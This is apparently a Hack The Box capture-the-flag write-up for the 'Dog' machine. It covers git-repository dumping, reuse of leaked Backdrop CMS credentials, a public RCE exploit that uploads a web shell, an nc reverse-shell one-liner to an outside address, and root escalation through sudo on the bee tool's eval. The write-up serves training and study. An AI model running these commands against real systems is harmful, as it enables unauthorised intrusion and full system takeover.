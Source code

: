 ```yaml
---
name: Dog
difficulty: easy
os: linux
platform: htb
date: 2025/07/01

img: https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.58 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.58 -o targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 972ad22c898ad3ed4dac00d21e8749a7 (RSA)
|   256 277c3ceb0f26e962590f0fb138c9ae2b (ECDSA)
|_  256 9388474c69af7216094cba771e3b3beb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## User Exploitation

As we can see, there is a web service running on port 80. This is exposing .git directory, which is a common misconfiguration in web applications. We can use this to our advantage.

We use `git-dumper` to download the contents of the `.git` directory:

```bash
python git_dumper.py http://10.10.11.58/.git/ ./website
```

This way we can download the entire repository, including the source code and configuration files.

We find a file named `settings.php` that contains sensitive information such as database credentials and other configuration details.
```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$config_directories['active'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active';
$config_directories['staging'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/staging';
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';
```

Connecting to the database using the credentials we found, we can dump the users table to find valid user accounts.

```bash
mysql -u root -pBackDropJ2024DS2024 -h
```
Searching in depth, we find a possible user mail:
```bash
cat files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json
```
The user is `tiffany@dog.htb`

Web page login was successfull using `tiffany@dog.htb:BackDropJ2024DS2024`

We can look up for exploits for the current version of Backdrop CMS. We find `https://www.exploit-db.com/exploits/52021` which is a Remote Code Execution (RCE) vulnerability in Backdrop CMS 1.27.1. Exactly the version we are running.

We copy and run the python script
```bash
python pya.py http://10.10.11.58
```
```
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

We need to transform .zip to .tar.gz to upload it in the web application. We can do this with the following command:
```bash
unzip shell.zip && tar -czvf shell.tar.gz shell
```

We upload the `shell.tar.gz` file to the web application using the following steps:
Functionality > Install Module > Manual Installation

Then we can execute commands using the web shell at `http://10.10.11.58//modules/shell/shell.php?cmd=whoami`
```bash
www-data
```

We can get a reverse shell using the following command:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.16.69 4444 > /tmp/f
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We find there is a user `johncusack` in the home directory:
```bash
ls /home
```

We move to user su `johncusack` using the known password `BackDropJ2024DS2024`
```bash
ssh johncusack
```

We can find the user flag in the home directory:
```bash
cat /home/johncusack/user.txt
```
```
user flag value
```

## Root Exploitation

We can check if user `johncusack` has sudo privileges:
```bash
sudo -l
```
```
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```
We can see that user `johncusack` can run the command `/usr/local/bin/bee` as root.

We can check the usage of the `/usr/local/bin/bee` utility:
```bash
/usr/local/bin/bee --help
```

We find some interesting options

- eval: allows us to execute arbitrary php code
- --root: specifies the root directory to use

We can execute arbitrary code using these parameters. We can use the following command to get a reverse shell as root:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("id");'
```
```
uid=0(root) gid=0(root) groups=0(root)
```

We can add SUID permission to `/bin/bash` as its owned by root and we can execute it as root:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("chmod u+s /bin/bash");'
bash -p
cat /root/root.txt
```
```
root flag value
```

## Conclusion
This walkthrough demonstrates how to exploit a vulnerable Backdrop CMS installation to gain user and root access on the Dog machine. By leveraging misconfigurations and known vulnerabilities, we were able to escalate privileges and retrieve the flags.
This highlights the importance of secure coding practices and proper configuration management in web applications.

